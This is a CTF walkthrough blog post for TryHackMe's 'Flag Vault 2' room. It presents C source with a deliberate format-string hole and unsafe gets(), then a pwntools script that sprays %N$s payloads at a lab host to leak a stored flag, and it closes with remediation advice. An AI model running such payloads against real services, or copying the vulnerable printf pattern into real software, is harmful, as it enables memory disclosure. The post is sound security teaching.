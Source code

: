 ```yaml
---
title: "Flag Vault 2 CTF TryHackMe Walkthrough"
slug: flag-vault-2
layout: post
excerpt_separator: <!--more-->
categories:
  - ctfs
---
```


![](https://raw.githubusercontent.com/j4ke-exe/j4ke.io/refs/heads/main/assets/media/flag-vault-2-banner.jpg){: .center-image }

In this TryHackMe CTF challenge, [Flag Vault 2](https://tryhackme.com/room/hfb1flagvault2), our objective is to analyze and exploit a binary vulnerable to an f-string format attack. This vulnerability enables attackers to read arbitrary memory addresses or leak data on the stack by abusing the printf function without a format string.

<br>

## Step 1: Analyze Source Code

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
    printf( "  ______ _          __      __         _ _   \n"
        " |  ____| |         \\ \\    / /        | | |  \n"
        " | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
        " |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
        " | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
        " |_|    |_|\\__,_|\\__, | \\ / \\__,_|\\__,_|_|\\__|\n"
        "                  __/ |                      \n"
        "                 |___/                       \n"
        "                                             \n"
        "Version 2.1 - Fixed print_flag to not print the flag. Nothing you can do about it!\n"
        "==================================================================\n\n"
          );
}

void print_flag(char *username){
    FILE *f = fopen("flag.txt","r");
    char flag[200];

    fgets(flag, 199, f);
    //printf("%s", flag);

    printf("Hello, ");
    printf(username);
    printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
    printf("Yours truly,\nByteReaper\n\n");
}

void login(){
    char username[100] = "";

    printf("Username: ");
    gets(username);

    // The flag isn't printed anymore. No need for authentication
    print_flag(username);
}

void main(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    // Start login process
    print_banner();
    login();

    return;
}
```

### Observations:
- The vulnerable function is `print_flag()`, which accepts an unsanitized user input `username` and passes it directly into `printf()`.
- `gets()` is also bad, considering it allows an attacker to input without bounds checking, which can result in a **buffer overflow**.
- The flag is stored in memory in a buffer called `flag`, but the actual call to `printf("%s", flag)` has been commented out. The idea is that the flag is in memory but inaccessible... or is it?

<br>

## Step 2: Understand the Vulnerability

### What's happening?

The `username` buffer is read using `gets()`--which has no bounds checking (insecure)--and is passed directly to `printf()`:

```c
printf(username);
```

This introduces a **format string vulnerability**, where if user input contains format specifiers (like `%x`, `%s`, `%n`, etc.), they are interpreted by `printf()`, resulting in unwanted behavior.

<br>

### Why is it vulnerable?

Passing user-controlled input directly into `printf()` without a format string leads to undefined behavior, allowing attackers to:

- Leak stack contents via `%x`/`%s`
- Write arbitrary memory using `%n`
- Control execution flow

In this case, the goal is to grab the flag string stored in memory. Since it’s read with `fgets()` and stored in `char flag[200]`, we can try to leak stack positions where `flag` is located.

<br>

## Step 3: Exploit

Below is a simple Python script I wrote to brute-force stack positions with payloads like `%1$s`, resulting in leaking a stack position that contains the flag.

```python
import os
from pwn import *

TARGET_IP = '10.10.180.45'
TARGET_PORT = 1337

for i in range(1, 50):
    payload = f'%{i}$s'.encode()
    print(f'[+] Trying %{i}$s')
    r = remote(TARGET_IP, TARGET_PORT, timeout=5)
    r.recvuntil(b'Username:')
    r.sendline(payload)
    output = r.recvall(timeout=2).decode(errors='ignore')
    r.close()

    if 'THM{' in output:
        print(f'\nFound flag: {output}')
        break
    elif os.name == 'nt':
        os.system('cls')
    else:
        os.system('clear')
```

### Output:
```
[+] Trying %5$s
[+] Opening connection to 10.10.214.114 on port 1337: Done
[+] Receiving all data: Done (145B)
[*] Closed connection to 10.10.214.114 port 1337

Found flag:  Hello, THM{REDACTED}
. Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...

Yours truly,
ByteReaper
```

<br>

### How does this work?

- `printf(username)` interprets `%5$s` as "read the 5th item on the stack as a pointer to a string".
- This is where the `flag` buffer resides in memory after being populated by `fgets()`.

<br>

---

<br>

## Hotwash

### Format String Vulnerabilities

When user input is passed to `printf()` or similar functions **without a format string**, you expose yourself to:

- **Memory leaks** via `%s`, `%x`
- **Memory writes** via `%n`
- **Execution redirection** (advanced)

### Vulnerable Patterns

```c
printf(username);         // vulnerable
printf("%s", username);   // secure
```

Learn more: [OWASP Format String Vulnerabilities](https://owasp.org/www-community/attacks/Format_string_attack)

Regardless of whether you're printing a simple or complex string, always use an explicit format string to mitigate this attack vector.

<br>

## Room Created By
- [munra](https://tryhackme.com/p/munra)
- [hadrian3689](https://tryhackme.com/p/hadrian3689)
